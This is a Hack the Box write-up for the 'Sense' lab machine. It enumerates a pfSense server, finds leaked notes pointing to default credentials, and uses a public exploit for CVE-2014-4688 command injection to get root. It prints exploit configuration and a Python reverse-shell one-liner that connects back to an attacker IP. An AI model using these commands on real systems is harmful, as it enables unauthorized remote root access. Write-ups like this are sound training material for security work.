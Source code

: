 ```yaml
---
description: Writeup for Sense from Hack the Box
---
```


# Sense

## Service Enumeration

`nmapAutomator.sh -H 10.10.10.60 -t all`

![](../../.gitbook/assets/d8018fada8cb47bebb120004c84fea59.png)

There is a web service running on standard ports.

It turns out to be a pfSense login page.

![](../../.gitbook/assets/28518b79313540228a42c30eb2b2ca7c.png)

The initial subdirectory enumeration did not yield anything interesting. If we look for `.txt` and `.php` files, however, we find some more interesting files.

`gobuster dir -u https://10.10.10.60 -w /usr/share/dirb/wordlists/common.txt -x .txt,.php -k`

![](../../.gitbook/assets/1a9d66d2db7e4722a6dc3942c6424f7e.png)

The PHP pages will load the login page.

However, we find a `changelog.txt`:

```text
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

Using a longer wordlist, `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`, we find another `.txt` file.

![](../../.gitbook/assets/e937d8f73a0d4b12a0f4ed37e44f095e.png)

```text
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

## Exploitation

The default credentials, `admin:pfsense` do not work. However, the `system-users.txt` file above indicated that a `Rohit` username exists, with a "company default" password.

Using the credentials `rohit:pfsense`, we successfully authenticate into the web application.

Here, we get more information on the system version.

![](../../.gitbook/assets/0f286e416183428f9bce07e7c2a00be0.png)

This version is vulnerable to CVE 2014-4688, a command injection vulnerability.

Using code from [https://github.com/spencerdodd/pfsense-code-exec/blob/master/pfsense\_exec.py](https://github.com/spencerdodd/pfsense-code-exec/blob/master/pfsense_exec.py), we can exploit the vulnerability.

Change the configuration to suit our needs:

```python
username =         "rohit"
password =         "pfsense"
listener_ip =     "10.10.14.23"
listener_port = "4444"
target_ip = "10.10.10.60"
```

![](../../.gitbook/assets/e9f5613fb4bd459381238127554b7273.png)

The service is running as root, so we get a root shell.

![](../../.gitbook/assets/db264aad507c418d94d19ce98dd90a1b.png)

To upgrade to an interactive shell, we can catch the Python reverse shell on another terminal:

`export RHOST="10.10.14.23";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

![](../../.gitbook/assets/2008b54a67ea4b0686b31344ee954655.png)

